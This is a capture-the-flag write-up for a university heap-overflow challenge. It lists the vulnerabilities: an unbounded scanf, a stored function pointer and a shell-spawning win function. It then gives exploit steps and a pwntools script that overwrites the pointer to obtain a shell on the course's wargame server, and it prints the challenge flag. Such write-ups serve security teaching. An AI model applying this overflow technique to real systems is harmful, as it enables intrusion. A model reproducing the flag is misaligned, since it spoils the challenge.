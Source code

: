 heap 1 | `babys_first_1`
===========================

Flag: `6447{09d435a4-a0dd-46a9-bd7f-f39fdbf10cd3}`

General overview of problems faced
-------------------------------------
Had difficulty understanding what the goal of a Heap Overflow was.
Had to learn about heap and how to use gdb in order to print heap, bins etc.

List of vulnerabilities
--------------------
1. The name of the fish is taken from STDIN using `scanf(%s)` which allows arbitrary length inputh to be passed. This means we can overflow the buffer and write bytes after it.
2. Each allocated bin when creating a fish contains the address of the `puts` function which is used during program execution
3. The binary contains a function which call `system('/bin/sh')` allowing an attacker to point to it when doing a stack or heap overflow.

Steps to exploit
------------------
1. Get the address of the function which calls a shell from the binary (0x08048690)
2. Create a fish at position 0 with any size, weight and set the name to be 102 bytes of offset + the address of the win function in little endian format (`\x90\x86\x04\x08`)
3. View the fish you created
4. You now have a shell.

Script/Command used
------------------
```python
from pwn import *

# Flag: 6447{09d435a4-a0dd-46a9-bd7f-f39fdbf10cd3}

p = remote('wargames.6447.sec.edu.au', 9001)

p.sendline("1") # create a fish
p.sendline("0") # at position 0
p.sendline("10") # size
p.sendline("10") # weight
p.sendline('A' * 102 + '\x90\x86\x04\x08') # name

p.sendline("3") # view fish
p.sendline("0") # at position 0

p.recvrepeat(0.2)

print "Shell enabled."

p.interactive()
```

===============================================================
===============================================================
